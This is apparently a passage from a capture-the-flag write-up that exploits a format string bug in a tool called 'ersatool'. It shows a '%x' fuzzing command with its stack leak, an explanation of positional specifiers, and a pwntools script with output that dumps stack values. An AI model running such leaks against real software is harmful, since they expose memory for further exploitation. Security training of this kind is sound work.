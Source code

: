 **Task 1**: We can fuzz a little more using Python and check where the `AAAA` before the format strings are:

```console
www-data@pki:~/html/uploads$ ersatool print $(python3 -c 'print("AAAA" + "%x." * 100)')
AAAAf7b2915f.ab89b864.f7b2915f.0.78252e78.da4b5a98.ab89be4d.41414141.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.ab89b830.74706f2f.61737279.73746e65.2e782541.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.[!] ERR reading /opt/easyrsa/clients/AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.!
```

As showm, `41414141` (`AAAA` in hexadecimal ASCII values) is on the eighth position (offset `8`).

**Task 2**: To leak an address we must use format strings like `%x` or `%p` (both will print the hexadecimal value of an address, but the second will prepend `0x`). However, instead of putting a lot of format strings, we can take the position we desire using `%i$p`, where `i` is the position. This time, as it is a 64-bit binary, we need to use `%lx` or `%lp`.

Using this idea, let's build a simple Python script using `pwntools` to dump the first 60 values:

```python
from pwn import *

p = remote('127.0.0.1', 1234)


def get_value(i):
    p.sendlineafter(b'print->CN=', f'%{i}$lp'.encode())
    data = p.recvline()
    data = data[:data.index(b'[!] ERR')]
    print(i, data.decode())
    return int(data.decode(), 16)


p.sendlineafter(b'# ', b'print')

for i in range(1, 61):
    get_value(i)
```

```console
$ python3 exploit.py
[+] Opening connection to 127.0.0.1 on port 1234: Done
1 0x5615109d815f
2 0x7ffdc8e5489a
3 0x5615109d815f
4 0x4a
5 0x696c632f61737279
6 0x1109d41d0
7 (nil)
8 0x706c243825
9 (nil)
...
19 (nil)
20 0x561500000000
21 0x7f4a39c0bf51
22 0x7361652f74706f2f
23 0x696c632f61737279
24 0x3432252f73746e65
25 0x6e70766f2e706c24
26 (nil)
...
33 (nil)
34 0x7f4a00000000
35 0x7f4a39bfd87d
36 (nil)
```